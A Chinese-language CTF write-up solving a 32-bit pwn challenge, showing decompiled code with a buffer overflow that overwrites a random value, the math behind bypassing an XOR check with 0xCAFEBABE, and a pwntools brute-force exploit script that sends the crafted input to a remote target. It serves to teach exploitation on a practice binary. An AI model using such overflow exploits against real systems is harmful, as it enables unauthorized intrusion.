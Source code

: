 ```yaml
---
title: 巧妙的爆破
date: 2021-09-10 13:20:48
tags: ['ctf','信息安全']
categories: ['ctf']
---
```


# 前言


  有一说一，题目漏洞很简单，看明白wp后整个题目也不难。但是这个爆破一开始着实没什么思路，特别记录并且总结一下。


# 实例 timu

  点击[附件链接](timu.tar.gz)


## 保护分析

  首先查看一下程序相关的保护机制
  ![保护机制](保护机制.PNG)


  基本上除了栈不可执行以外，就没有开启什么保护机制

## 漏洞分析

  这道题目的逻辑结构格外的简单，如下所示
  ```c
int __cdecl read_num(void *buf, size_t nbytes)
{
  ssize_t v3; // [esp+8h] [ebp-10h]
  ssize_t i; // [esp+Ch] [ebp-Ch]

  v3 = read(0, buf, nbytes);
  for ( i = 0; i < v3; ++i )
  {
    if ( (*((char *)buf + i) <= 0x2F || *((char *)buf + i) > 0x39) && *((_BYTE *)buf + i) != 0xA )
      return 0;
  }
  return 1;
}



int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  __int64 v4; // rax
  __int64 v6; // [esp+0h] [ebp-30h]
  char nptr[8]; // [esp+Ch] [ebp-24h] BYREF
  int v8; // [esp+14h] [ebp-1Ch]
  int *v9; // [esp+24h] [ebp-Ch]

  v9 = &argc;
  v3 = time(0);
  srand(v3);
  v8 = rand();
  if ( read_num(nptr, 12u) )
  {
    v6 = v8;
    v4 = atoll(nptr);
    if ( HIDWORD(v4) ^ HIDWORD(v6) | (unsigned int)v4 ^ (unsigned int)v6 ^ 0xCAFEBABE )
      puts("try again!");
    else
      system("cat flag");
  }
  return 0;
}
```

  可以看到，其逻辑就是一个读取，然后验证读取。
  因此，很明显，我们需要做的就是绕过该验证即可。

  如果在细心的观察一下该程序，根据ida自动生成的注释信息，我们很容易发现`read_num(nptr, 12u)`处存在一个缓冲区溢出漏洞——实际上`nptr`的大小应该是8字节的，因此该程序应该是通过缓冲区溢出，覆盖掉一些重要数据，从而完成验证的绕过。


## 漏洞利用

  这里我们在详细的分析一下验证部分的代码，即
  ```c
if( HIDWORD(v4) ^ HIDWORD(v6) | (unsigned int)v4 ^ (unsigned int)v6 ^ 0xCAFEBABE)
```

  实际上，由于$v6 = v8$，而**v8**是`int`类型的，因此$HIDWORD(v6) = 0$。则为了使验证机制通过，则必须有$HIDWORD(v4) = 0$，即`atoll(input[0:12])`不要太大即可。

  下面由于`v4 = atoll(nptr)`，且`(unsigned int)v6`恰好可以被输入覆盖掉，因此该条件相当于$atoll(input[0:12]) \otimes u32(input[8:12]) \otimes 0xcafebabe = 0$，即$atoll(input[0:12]) \otimes u32(input[8:12]) = 0xcafebabe$。
  因此，我们只要找到满足上面条件的**input**即可。虽然如此，一开始看到这个约束，仍然没有什么较好的思路去解决

  实际上，我们可以将输入分为`input[0:8]`和`input[8:12]`，则约束转换为$(atoll(input[0:8]) \times 10000 + atoll(input[8:12])) \otimes u32(input[8:12]) = 0xcafebabe$，即$atoll(input[0:8]) \times 10000 = (0xcafebabe \otimes u32(input[8:12])) - atoll(input[8:12])$
  此时，变成了两个独立变量的等式，我们用更为精确的方式来描述
  $$
  \begin{cases}
  x = input[0:8] \\
  y = input[8:12] \\
  x \in [0, 10 ^ {8}) \\
  y \in [0, 10 ^ {4}) \\
  atoll(x) * 10000 = (0xcafebabe \otimes u32(y)) - atoll(y)
  \end{cases}
  $$

  由于**y**变量的范围比较小，则可以通过爆破**y**，从而解出**x**，进而恢复出输入。
  根据上述等式，只要$((0xcafebabe \otimes u32(y)) - atoll(y)) \% 10000 = 0$，则**y**满足条件，且有$x = ((0xcafebabe \otimes u32(y)) - atoll(y)) / 10000$

  剩下就通过脚本进行简单的爆破即可。
  ~~看着推起来一帆风顺，甚至有点简单，但是一开始根本没想到要将输入分割成两个无关的变量，数学功底退步了~~

## 实现

  根据上面的分析，直接写一个小脚本爆破出**x**和**y**，然后拼装成输入即可，如下所示
  ```python
#!/usr/bin/python2
# -*- coding:utf-8 -*-
from pwn import *
import sys
import platform

'''
	待修改数据
'''
context.log_level = 'debug'
context.arch = 'i386'				# 32位使用i386
context.os = 'linux'
#context.terminal = ['tmux', 'splitw', '-h']

execve_file = './timu'


log.info('-----------------------------------------------------------')



def getAnswer():
	for i in range(10000):
		if((0xcafebabe ^ u32(str(i).rjust(4, '0'))) - i) % 10000 == 0:
			return i
def exp():
	if 'd' in sys.argv:
		r = process(execve_file)
	else:
		r = remote(sys.argv[1], sys.argv[2])
	y = getAnswer()
	x = int(((0xcafebabe ^ u32(str(y).rjust(4, '0'))) - y) / 10000)
	r.send(str(x * 10000 + y).rjust(12, '0'))
	r.recvall()

	


exp()

	
log.info('-----------------------------------------------------------')
```
